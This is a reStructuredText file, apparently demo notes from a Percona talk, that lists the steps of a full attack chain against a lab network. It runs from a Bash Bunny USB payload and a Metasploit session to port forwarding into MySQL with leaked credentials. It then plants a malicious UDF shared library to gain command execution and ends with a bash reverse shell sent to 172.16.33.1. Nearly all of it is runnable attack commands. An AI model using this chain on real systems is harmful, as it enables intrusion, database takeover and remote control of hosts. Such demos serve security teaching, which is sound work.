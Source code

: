 .. Copyright 2017 Percona LLC / David Busby

#. Load the bashbunny with compromise/bashbunny/payloads/switch1/*
#. `sync` && eject bashbunny
#. Unplug bashbunny, slide switch to position 1
#. re-plug bashbunny, allow to run light will show green when done it should be at the point of MSFconsole running `exploit` to start the multi/handler
#. in a new tab `curl -skv http://172.16.33.2/vuln_webapp/images.php 2>/dev/null &`
#. msfconsole _should_ get a new session
#. You may want to demonstrated you can not reach 3306/tcp on 172.16.33.3 at this point e.g. `nc -v 172.16.33.3 3306`
#. In msfconsole run: `portfwd add -l 3306 -p 3306 -r 172.16.33.3`
#. Use credentials from `cat.sqli` in the meterepter session to run on the CnC / localhost `mysql -uvuln_webapp -ppluk`
#. In mysql run the follwing `show grants(); select whomami();`
#. In new tab settup a listener with netcat `nc -l 11457`
#. Head back to mysql client tab

#. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp < udf_stager.sql 
#. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp -e "SELECT @@GLOBAL.plugin_dir" 
#. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp -e "SELECT payload FROM udf_stager INTO DUMPFILE '/usr/lib64/mysql/plugin/lib_mysqludf_sys.so'"

#. cat > udf_functions.sql << EOF
DROP FUNCTION IF EXISTS lib_mysqludf_sys_info;
DROP FUNCTION IF EXISTS sys_get;
DROP FUNCTION IF EXISTS sys_set;
DROP FUNCTION IF EXISTS sys_exec;
DROP FUNCTION IF EXISTS sys_eval;

CREATE FUNCTION lib_mysqludf_sys_info RETURNS string SONAME 'lib_mysqludf_sys.so';
CREATE FUNCTION sys_get RETURNS string SONAME 'lib_mysqludf_sys.so';
CREATE FUNCTION sys_set RETURNS int SONAME 'lib_mysqludf_sys.so';
CREATE FUNCTION sys_exec RETURNS int SONAME 'lib_mysqludf_sys.so';
CREATE FUNCTION sys_eval RETURNS string SONAME 'lib_mysqludf_sys.so';
EOF
#. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp < udf_functions.sql 
#. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp -e "SELECT sys_eval('id')" 
#. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp -e "SELECT sys_eval('whoami')" 
#. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp -e "SELECT sys_eval('bash -i >& /dev/tcp/172.16.33.1/11458 0>&1 &')"
